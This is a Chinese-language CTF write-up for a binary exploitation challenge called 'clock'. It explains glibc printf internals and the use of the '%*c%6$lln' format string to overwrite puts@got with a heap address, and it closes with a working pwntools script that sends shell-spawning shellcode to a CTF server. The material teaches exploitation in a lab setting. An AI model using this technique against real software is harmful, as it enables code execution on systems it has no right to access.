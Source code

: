 # clock 

> [!NOTE]
> 感谢 *dbgbgtf* 提供的复杂printf格式解释思路

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO|Partial|
|Canary|off   |
|NX    |on    |
|PIE   |off   |
|strip |no    |
|libc  |2.35-0ubuntu3.8|

## 解题思路

程序一开始将堆区添加了可执行权限，并允许我们输入shellcode

<img src="assets/mprotect.png" height="90%" width="90%">

随后主菜单中的`display_current_time`给了可以控制的`format_and_print`，我们可以控制前三个参数。

<img src="assets/critical.png" height="65%" width="65%">

跟进去一看，`vsnprintf`是什么函数？

> [!IMPORTANT]
> `vsnprintf`是"printf to string with max n chars in raw va_list"的意思，`va_list`是什么？
> 通过gdb打印它的结构，看不懂；在glibc中找定义，找不到；在网上找文章，没有具体信息；
> 最后发现它是由gcc实现的。正当我放弃时，想到了pwndbg，结果发现pwndbg已经做好了解析功能
>
> ![resolve](assets/resolve.png)
>
> 图中`gp_offset`指向的参数就是第一个参数，`reg_save_area`用完了，`overflow_arg_area`继续，
> 这也是各种`printf`的内部实现，不难看出，从第 **6** 个参数开始从栈上访问

可以发现，第二个参数来自堆上，而堆又是可执行的；第三个参数来自栈上，因此可以写指针，
然后利用`$`来访问。注意到在`format_and_print`函数后跟了`puts`， 并且程序没有开PIE与只读GOT，
因此可以尝试覆盖之。如果能覆盖成堆地址就好了，直接跳转过去执行我输入的代码。其中的秘诀就是——`%*c`。

> [!NOTE]
> `*`在printf中是一个格式化修饰符，意味着将当前参数作为`int`读入并视为宽度，
> 例如`printf("%*d", -5, 777)`就会在内部被解释为`"%-5d"`，输出`777  `；
> `*`还可以使用positional arg，例如`printf("%c%*4$d", '>', 1, 2, 3)`就会输出`>  1`。
>
> 注意，positional arg会使输出变得“不合直觉”，在上例中，`4$`应当作用在`d`上，
> 然而实际上却作用在了`*`上，输出了"  1"。类似的，`printf("%3$*d", 3, 2, 1)`输出`  1`；
> `printf("%3$*2$d", 3, 2, 1)`输出` 1`。以下是一种解释。具体的代码请参阅`printf-parsemb`[^1]。
>
> ![explanation](assets/explanation.png)
>
> 此外，`*`取参数的值时，固定取`int`，当取到的值为负数时，会自动做相反数运算，并且打开左对齐输出，
> 在后文中会提到，这是一个对我们在利用时不利的特性。

[^1]: https://elixir.bootlin.com/glibc/glibc-2.38/source/stdio-common/printf-parsemb.c

```c
// glibc2.38/stdio-common/vfprintf-internal.c#L763
      /* Get width from argument.  */
    LABEL (width_asterics):
      {
	const UCHAR_T *tmp;	/* Temporary value.  */

	tmp = ++f;
	if (ISDIGIT (*tmp))
	  {
	    int pos = read_int (&tmp);

	    if (pos == -1)
	      {
		__set_errno (EOVERFLOW);
		Xprintf_buffer_mark_failed (buf);
		goto all_done;
	      }

	    if (pos && *tmp == L_('$'))
	      /* The width comes from a positional parameter.  */
	      goto do_positional;
	  }
	width = va_arg (ap, int); // 认为*输入的参数是int类型的数据

	/* Negative width means left justified.  */
	if (width < 0)
	  {
	    width = -width;
	    pad = L_(' ');
	    left = 1;
	  }
      }
      JUMP (*f, step1_jumps);
```

现在我们知道，我们访问的第一个参数是刚写入完内容的`name`堆地址，第二个参数是`pwd`栈地址，
并且第6个参数处就是我们写入的内容。如果我们能把堆地址写到`puts@got`中，
那么`puts`执行时就会跳转到我们在堆上输入的数据处。此时`*`参数就派上用场了。
使用`"%*c%6$lln"`作为格式输入，`vsnprintf`就会将第一个堆地址作为宽度，打印第二个字符，
然后根据写过的字符数，将其写入到第六个参数，`puts@got`中。

> [!TIP]
> 由于程序没开PIE，因此堆地址刚好占4个字节，由于`*`取的类型为`int`，所以如果开了PIE，
> 堆地址变成了6个字节，这个方法就废了
>
> 此外，`puts@got`原先已经链接了`puts@libc`，其中存放了6个字节的数据，
> 需要通过`lln`清空之前的数据，只保留堆地址这4个字节

这样以来，我们只需要在申请的堆块上写上打开shell的shellcode，我们就能成功拿shell。

> 最后的payload非常短，我猜是非预期

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
context.arch = 'amd64'
EXE = './clock'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('node5.buuoj.cn', 29789)
    elf = ELF(EXE)

    sh.sendafter(b'code', b'never mind')
    sh.sendlineafter(b'Enter', b'3')
    sh.sendafter(b'format', b'%*c%6$lln')
    sh.sendafter(b'name', asm(shellcraft.amd64.linux.sh()))
    sh.sendafter(b'pwd', p64(elf.got['puts']))

    sh.clean()
    sh.interactive()
```

## `*`修饰符的妙用

这里有[一篇文章](https://violenttestpen.github.io/ctf/pwn/2021/06/06/zh3r0-ctf-2021/)，
讲了如何借助`*`进行进一步利用。简而言之，如果有libc的指针，
并且有现成的指针存储了堆之上，栈之下的地址，那么就可以先从现有的libc指针中使用`*`，
写`libc & 0xffffffff`个字节，然后可以再跟一个`%?c`来做加法，把写过的字节调一下，
然后再使用`%?$n`就可以把调过偏移的数字写入你想要写的指针中（堆之上，栈之下的地址的高2字节，
即`0x7fff`这个部分，基本都一样，因此可以直接利用）

> [!TIP]
> 基于我本机[^2]的libc.so.6，我收集了一系列在`system`之前的符号，
> 可以在当前目录下的[SymbolsBeforeSystem.txt](./SymbolsBeforeSystem.txt)中查看

[^2]: Arch Linux, GLIBC_2.39

但是，由上面的源码可见，当`libc & 0x80000000 != 0`时，`*`取到的就是一个负数，
并会将其取相反数，例如对`0x7ffff7c00000`取就会变成`-(0x7ffff7c00000 & 0xffffffff)`，
即`0x8400000`，这显然与我们想写的`0xf7c00000`产生了偏差。在ASLR开启的情况下，
libc被int截断后的最高位为0的概率是1/2，因此我们通过这种方式能写正确字节的概率也是1/2。

## 写这么多字节为什么连接没有被关断？

容器一般会有限制，如cpu时间，占用的资源等，如果一次性打印了大量的字符，
则很有可能导致连接的关断。然而，上面的例子中，写入堆地址同样是一个很大的值，却能顺利打通，
这是怎么回事呢？

仔细观察函数`vsnprintf`属于`sprintf`家族，实际上，大量空白字符并没有输出到标准输出流中，
实际上只做了字符串写入操作；而且还限定了长度，防止越界写。那么内部实际在写入完有效的字符串后，
会使用一个额外的，“丢弃的”缓冲区来处理剩余未写入完的垃圾字符，如下图所示

![legend](assets/structure.png)

在上图中，`buf.base.write_base`本来是指向要写入的字符串(0x7fffffffddb0)开始的，
当字符串写入达到长度限制后，`write_base`就指向了结构体内的`discard`继续写入。
gdb跟踪查看源代码，当有大量字符溢出时，会反复使用`memset`填充`discard`[^3]，
而这个行为实际上并不经过网络传输，因此不会导致连接关断。

[^3]: https://elixir.bootlin.com/glibc/glibc-2.38/source/stdio-common/Xprintf_buffer_pad_1.c#L39

> [!NOTE]
> 在上述结构体中，有`written`字段，然而，如果payload比较短，我发现`written`明明是0，
> 但是使用`%n`时仍然写入了正确的数字。例如`"%c%20c%n"`在运行到`%n`时，
> 结构体中的`written`仍然是0。实际上，printf正确地将21写入了预期的指针中，
> 查询源码发现统计"%n"前已写入的字符是`written + (write_ptr - write_base)`[^4]，
> 因此没有问题

[^4]: https://elixir.bootlin.com/glibc/glibc-2.38/source/stdio-common/Xprintf_buffer_done.c#L24

实际使用`*`时，除了可以用在`vsnprintf` & `snprintf`，还可以用在`fprintf` & `dprintf`，
如写入的文件是`/dev/null`，这同样不会向网络传输字符。总而言之，只要空白字符不打印出来，
就可以利用。

## `printf`函数分配了堆块？

当我测试时，printf会分配堆块，其调用链是
`__printf_buffer_do_flush -> __printf_buffer_flush_to_file -> _IO_new_file_xsputn ->
_IO_new_file_overflow -> __GI__IO_doallocbuf -> __GI__IO_file_doallocate -> malloc`，
printf确实会分配堆块。然而，看了pwn.college后发现只要`setbuf(stdout, NULL)`就不会再分配缓冲区了。

看来这行代码一方面实现了即时刷新缓冲区，另一方面也避免了出乎意料的堆块分配。

## 参考

[Pwn: More Printf](https://violenttestpen.github.io/ctf/pwn/2021/06/06/zh3r0-ctf-2021/)
